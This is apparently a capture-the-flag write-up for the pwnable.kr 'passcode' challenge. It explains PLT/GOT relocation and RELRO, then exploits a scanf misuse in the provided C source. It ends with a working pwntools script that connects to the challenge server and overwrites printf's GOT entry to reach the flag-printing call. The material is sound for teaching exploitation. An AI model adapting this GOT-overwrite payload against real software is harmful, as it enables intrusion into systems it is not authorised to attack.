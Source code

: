 # passcode

## Description

passcode - 10 pt

> Mommy told me to make a passcode based login system. <br>
> My initial C code was compiled without any error! <br>
> Well, there was some compiler warning, but who cares about that? <br> <br>
> ssh passcode@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Statically and dynamically linked binaries

A binary can be either statically or dynamically linked. A statically linked binary is a self-contained executable that contains all the code and libraries it needs to run. A dynamically linked binary, on the other hand, uses the libraries that are installed on the system.

Most binaries are dynamically linked. This is because it is easier to update the libraries, and it is also more efficient. For example, if a program uses the `printf` function, it doesn't need to include the code for `printf` in the binary itself. Instead, it can use the `printf` function that is already installed on the system.

To locate the functions in the libraries, the binary needs to know the addresses of the functions. They couldn't simply be hard-coded, since the libraries update and with them the addresses change.

The lookup of the addresses and providing a mechanism to call them is called relocation. Most of the work is done by the linker.

#### Relocation

An ELF file is divided into sections. Each section contains a specific type of data, and some sections are used for relocation. Here are the interesting ones:

* `.got` - The Global Offset Table. This section contains the addresses of global variables.

* `.plt` - The Procedure Linkage Table. This section stubs that look up the addresses in the .got.plt section, and either jump to them, or call the linker to resolve them.

* `.got.plt` - The Global Offset Table for Procedure Linkage Table. This section contains the addresses of dynamically linked functions.

For example, let's take a look at the following disassembly:

```asm
0000000000400590 <puts@plt>:
400590:       ff 25 6a 0a 20 00       jmp    *0x200a6a(%rip)        # 601000 <puts@GLIBC_2.2.5>
400596:       68 00 00 00 00          push   $0x0
40059b:       e9 e0 ff ff ff          jmp    400580 <.plt>
```

The `puts@plt` stub is located in the `.plt` section. It's purpose is tho provide a mechanism to call the `puts` function. It does this by jumping to the address in the `.got.plt` section. 

When the program calls `puts` the first time, the matching `.got.plt` entry will be a call to the linker. The linker will resolve the address of the `puts` function, and update the `.got.plt` entry. The next time the program calls `puts`, it will jump directly to the address of the `puts` function. 

#### Using relocation for pwning

Most modern systems use NX (No eXecute) protection. This means that the memory pages that can be exectued can't be written. However, the `.got.plt` section is basically a table of addresses - and it is writable. This means that we can overwrite the addresses in the `.got.plt` section, and redirect the program to call our own code. 

#### Mitigations

The exploiting of the `.got.plt` section is a common technique, and most modern systems have mitigations against it. The most common mitigation is the `RELRO` protection - which stands for `RELocation Read-Only`.

If the binary is compiled with `Partial RELRO` then the `.got.plt` section is writable, but the `.got` section is not. If the binary is compiled with `Full RELRO` then both the `.got.plt` and the `.got` sections are not writable.

### Exploit

The given binary is dynamically linked, and compiled with `Partial RELRO`. This hints that in our exploit we will need to overwrite the `.got.plt` section.

Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
	scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

The program first calls the `welcome()` function, where it saves `100` bytes of input on the stack. Then it calls the `login()` function, which reads 2 integers from the user. If the integers are equal to `338150` and `13371337` then the program prints the flag.

Following the hint in the description, we get the following warning when compiling the program:

```bash
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

This means that `scanf` is expecting to get the address of `passcode1` and `passcode2`, but instead gets their values.

So, if we chagne the value of `passcode1` to the address of a function in the `.got.plt` section, then we can redirect the program to the call `system("/bin/cat flag")`.

The key to this exploit is observing that both `welcome()` and `login()` will have the same base pointer when called. Therefore, some of the stack will be the same. We can use this to our advantage.

We will use the `welcome()` function save the address of `printf` in the `.got.plt` section inside the `passcode1` variable. Then, when scanf will be called in `login()`, we will enter the address of the call to `system("/bin/cat flag")`.

Here are the relevant parts of the disassembly:

```asm
08048564 <login>:
 ...
 80485e3:       c7 04 24 af 87 04 08    movl   $0x80487af,(%esp)
 80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
```

```asm
 08048420 <printf@plt>:
 8048420:       ff 25 00 a0 04 08       jmp    *0x804a000
 8048426:       68 00 00 00 00          push   $0x0
 804842b:       e9 e0 ff ff ff          jmp    8048410 <.plt>
```

So, the address of the pointer to `printf` in `.got.plt` is `0x804a000`, and the address of the call to `system("/bin/cat flag")` is `0x80485e3`.

As it truns out, with an offset of `96`, the input we enter will be stored in `passcode1`. Combining the two, we get the following exploit:

```python
from pwn import *

ssh = ssh(host='pwnable.kr', user='passcode', password='guest', port=2222)

p = ssh.process(executable='./passcode')

p.sendline('\x41' * 96 + '\x00\xa0\x04\x08' + '\n134514147')

p.interactive()
```

Note that we passed the second address as an integer because `scanf` uses `%d`.


